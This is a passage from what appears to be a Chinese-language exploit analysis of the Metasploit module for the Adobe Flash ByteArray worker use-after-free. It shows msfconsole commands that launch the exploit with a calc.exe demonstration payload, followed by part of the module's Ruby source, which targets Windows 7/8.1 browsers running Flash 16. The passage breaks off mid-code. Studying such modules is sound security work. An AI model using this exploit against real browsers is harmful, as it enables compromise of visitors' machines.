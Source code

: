 使用该模块生成木马

```sh
msf6 exploit(windows/browser/adobe_flash_worker_byte_array_uaf) > set payload windows/exec
msf6 exploit(windows/browser/adobe_flash_worker_byte_array_uaf) > set CMD calc.exe
msf6 exploit(windows/browser/adobe_flash_worker_byte_array_uaf) > exploit
```

随后 MSF 将在本地启动 Web Server 并在攻击目标访问时为其响应异常 HTML 页面以触发漏洞

## Exploit 分析

该模块的 exp 位于

```plaintext
/usr/share/metasploit-framework/modules/exploits/windows/browser/adobe_flash_worker_byte_array_uaf.rb
```

exp 的核心代码为

```Ruby
##
# This module requires Metasploit: https://metasploit.com/download
# Current source: https://github.com/rapid7/metasploit-framework
##

class MetasploitModule < Msf::Exploit::Remote
  Rank = GreatRanking

  include Msf::Exploit::Remote::BrowserExploitServer

  def initialize(info={})
    super(update_info(info,
      'Name'                => 'Adobe Flash Player ByteArray With Workers Use After Free',
      'Description'         => %q{...},
      'License'             => MSF_LICENSE,
      'Author'              => [...],
      'References'          => [...],
      'Payload'             => {...},
      'Platform'            => 'win',
      'BrowserRequirements' => {
          :source  => /script|headers/i,
          :os_name => lambda do |os|
            os =~ OperatingSystems::Match::WINDOWS_7 ||
              os =~ OperatingSystems::Match::WINDOWS_81
          end,
          :ua_name => lambda { |ua| [Msf::HttpClients::IE, Msf::HttpClients::FF].include?(ua) },
          :flash   => lambda { |ver| ver =~ /^16\./ && Rex::Version.new(ver) <= Rex::Version.new('16.0.0.296') },
          :arch    => ARCH_X86
        },
      'Targets'             => [...],
      'Privileged'          => false,
      'DisclosureDate'      => '2015-02-02',
      'DefaultTarget'       => 0))
  end

  def exploit
    @swf = create_swf
    super
  end

  def on_request_exploit(cli, request, target_info)
    print_status("Request: #{request.uri}")

    if request.uri =~ /\.swf$/
```